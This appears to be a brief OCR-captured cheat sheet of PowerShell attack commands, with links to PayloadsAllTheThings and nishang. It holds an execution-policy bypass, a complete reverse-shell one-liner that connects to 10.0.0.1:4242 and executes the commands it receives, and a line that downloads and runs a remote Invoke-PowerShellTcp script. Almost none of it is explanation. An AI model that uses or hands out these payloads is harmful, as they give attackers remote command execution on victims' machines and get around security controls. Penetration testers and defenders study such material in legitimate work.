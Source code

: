 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```